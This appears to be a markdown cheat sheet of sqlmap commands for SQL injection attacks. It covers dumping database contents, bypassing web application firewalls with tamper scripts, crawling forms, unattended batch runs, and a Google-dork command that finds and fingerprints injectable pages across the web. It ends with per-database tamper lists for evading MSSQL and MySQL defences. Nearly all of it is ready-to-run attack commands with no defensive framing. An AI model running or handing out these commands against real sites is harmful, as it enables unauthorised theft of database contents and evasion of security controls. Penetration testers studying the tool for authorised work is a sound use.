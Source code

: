 # SQLMAP COMMANDS 
### Dumping payloads
    $ sqlmap -r file.txt -p username --dump

### Bypassing WAF
    $ sqlmap -u 'https://target.com/index.php?name=abc’ --tamper=apostrophemask,apostrophenullencode

### Crawling with exclude and include switch
    $ sqlmap -u "https://target.com/index.php" --crawl=5 --crawl-exclude="logout" --forms

### Use default option instead of waiting for user input
    $ sqlmap -u "https://target.com/index.php?name=abc" --batch

### Cookies and Data 
    $ sqlmap –u "https://target.com/index.php" --cookies= --data=

### Using Random-Agent
    $ sqlmap.py -u "http://mytestsite.com/page.php?id=5" --random-agent

### sqlmapapi server
    $ sqlmapapi.py -s -H <IP> -p <Port>

### Basic Authentication
    $ sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password

### Google Dorks with sqlmap
    $ sqlmap.py -g “inurl:\”php?id=\”” –random-agent -f –batch –answer=”extending=N,follow=N,keep=N,exploit=n”

## Tamper for different databases 
***** General use: \tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes

***** MSSQL: tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes

*****MySQL: tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor

### Refrences
   - https://edricteo.com/sqlmap-commands/
   - https://sqlmap.org/
